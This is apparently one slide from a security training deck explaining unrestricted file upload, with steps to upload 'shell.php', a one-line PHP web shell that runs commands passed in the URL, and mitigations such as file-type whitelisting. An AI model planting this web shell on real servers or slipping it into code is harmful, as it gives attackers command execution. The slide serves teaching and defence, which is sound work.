

Vulnerability 9 (File Upload):-
Whenever the web server accepts a file without validating it or keeping any restriction, it is considered as an unrestricted file upload.
This Allows a remote attacker to upload a file with malicious content. This might end up in the execution of unrestricted code in the server.
Steps:-
Upload shell.php.
Access via browser: shell.php?cmd=ls
File content is:-
<?php system($_GET['cmd']); ?>
Impact: Code execution on server.
Mitigation: Whitelist file types, validate MIME types, disable executable upload.